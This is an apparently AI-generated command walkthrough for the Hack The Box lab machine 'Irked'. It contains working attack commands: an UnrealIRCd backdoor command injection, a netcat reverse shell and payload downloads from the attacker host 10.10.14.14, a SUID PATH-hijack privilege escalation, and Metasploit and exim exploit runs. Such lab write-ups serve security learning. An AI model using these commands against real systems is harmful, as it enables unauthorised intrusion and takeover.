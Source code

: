 Here is the **Markdown-formatted command walkthrough** for **HTB: Irked**, organized by phase and including command context for quick reference:

---

# 💀 HTB: Irked – Command Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- **Initial Access**: IRC backdoor (UnrealIRCd 3.2.8.1)
- **Privilege Escalation**: SUID binary misconfiguration + steganography

---

## 🔍 Recon

### 📦 Full TCP & UDP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.117
nmap -sU -p- --min-rate 10000 -oA nmap/alludp 10.10.10.117
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,111,6697,8067,65534 -oA nmap/scripts 10.10.10.117
```

---

## 🌐 Web Enumeration

### 🖼️ Download Site Image
```bash
wget http://10.10.10.117/irked.jpg
```

---

## 💬 [IRC](IRC.md) Enumeration

### 🧰 HexChat (GUI)
Connect to:
```
irked.htb : 6697, 8067, 65534
```

### 🔍 Check UnrealIRCd Exploit
```bash
searchsploit UnrealIRCd
```

---

## 🐚 Shell as ircd (IRC Backdoor Exploit)

### 🔎 Confirm RCE
```bash
nc 10.10.10.117 6697
# In nc:
AB; ping -c 1 10.10.14.14
```

### 🧬 Reverse Shell via IRC
```bash
nc 10.10.10.117 6697
# In nc:
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
```

```bash
nc -lnvp 443
```

### 🐍 Python Exploit Alternative
```bash
./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
```

---

## 🧩 PrivEsc: ircd → djmardov

### 📁 Find Hidden File
```bash
cd /home/djmardov/Documents
cat .backup
# Output: UPupDOWNdownLRlrBAbaSSss
```

### 🔓 Extract with steghide
```bash
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
cat pass.txt
# Output: Kab6h+m+bbp2J:HG
```

### 🔐 su or SSH to djmardov
```bash
su djmardov
# or
ssh djmardov@10.10.10.117
# Password: Kab6h+m+bbp2J:HG
```

```bash
cat user.txt
```

---

## 🔼 PrivEsc: djmardov → root

### 🔍 Upload & Run LinEnum
```bash
cd /dev/shm
wget http://10.10.14.14/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -t
```

### 🔍 Suspicious Binary
```bash
ls -l /usr/bin/viewuser
# SUID root binary
```

### 📂 Hijack /tmp/listusers
```bash
echo "id" > /tmp/listusers
chmod +x /tmp/listusers
viewuser
```

```bash
echo "sh" > /tmp/listusers
viewuser
```

```bash
id
cat /root/root.txt
```

---

## 🔬 Beyond Root

### 🔍 Metasploit IRC Backdoor Behavior
```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 6697
set LHOST 10.10.14.14
set LPORT 4444
run
```

### 🧵 Process List
```bash
ps aux | grep ircd
```

---

## ❌ Alternate Exploit Paths (Did Not Work)

### 🚫 Exim Local Exploit
```bash
/usr/sbin/exim -bV -v | grep Perl
# No Perl → Not vulnerable
```

### 🚫 CVE-2018-6789 Attempt
```bash
# SSH tunnel to expose port 25
ssh djmardov@10.10.10.117 -L 25:localhost:25

# Run exploit
python exim_exp.py 10.10.14.14 443 127.0.0.1
```

---

Let me know if you’d like this merged with your HTB collection or saved as a Markdown file!